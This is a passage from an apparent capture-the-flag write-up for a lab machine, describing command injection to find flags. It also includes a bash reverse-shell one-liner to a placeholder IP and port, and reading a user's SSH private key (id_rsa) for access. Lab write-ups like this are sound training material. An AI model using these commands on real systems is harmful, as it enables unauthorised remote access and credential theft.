 <img src="/img/catspictures2/gitea_meme.jpeg" width="600">

Changing command from "whoami" to "ls", stdout stats that there is a _flag2.txt_, change code again to "cat flag2.txt" and get the second flag.


## Third Flag

Still missing the third flag, usually flags are in the /root folder, so I prayed that a simple

```bash
cat /root/flag3.txt
```

would be all I needed, but unfortunately no... 
"Permission Denied".

#### RevShell & PrivEsc

N00B Version: 
- Visit https://www.revshells.com/
- Insert IP & Port
- Copy and Past

``` bash
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

NB: RevShells suck, so for sth that is more stable and since we know ssh is enabled:
```bash
ls -la
cd ".ssh"
cat id_rsa
```
